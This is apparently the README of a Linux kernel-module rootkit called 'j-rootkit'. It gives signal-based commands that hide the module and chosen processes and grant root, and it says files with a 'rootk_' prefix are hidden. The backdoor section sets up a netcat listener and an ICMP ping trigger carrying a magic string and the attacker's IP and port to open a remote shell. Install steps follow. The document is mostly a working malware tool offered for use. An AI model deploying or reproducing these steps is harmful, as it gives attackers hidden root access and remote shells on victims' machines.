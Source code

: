 # j-rootkit
Tested on Ubuntu 22.04 and Debian 12.4

# Usage
Hide/Show rootkit in the list of loaded modules (`$ lsmod`)
```sh
$ kill -63 1
```
When installed it starts hidden. You can only remove it when it's unhidden.

Become root:
```sh
$ kill -64 1
```

Hide process with pid
```sh
$ kill -62 <pid>
```

Unhide process with pid
```sh
$ kill -61 <pid>
```

It also hides every file and directory with prefix `rootk_`.

# Backdoor
On attacker machine start netcat listener on some port:
```sh
$ nc -lnvp <port>
```

Send ICMP ping to victim:
```sh
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'wA@2mC!dq <attacker-ip> <port>'
```

# Install
Compile module and backdoor:
```sh
$ make
$ make install
```

Load module:
```sh
$ sudo insmod build/rootkit.ko
```

# Remove
Make sure the module is visible in `lsmod`. To toggle visibility do `kill -63 1`. Then, remove it with:
```sh
$ sudo rmmod rootkit.ko
```

# References
- [nearly Complete Linux Loadable Kernel Modules](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.2.1.)
- [linux kernel hacking repo](https://github.com/xcellerator/linux_kernel_hacking)
- [diamorphine](https://github.com/m0nad/Diamorphine)
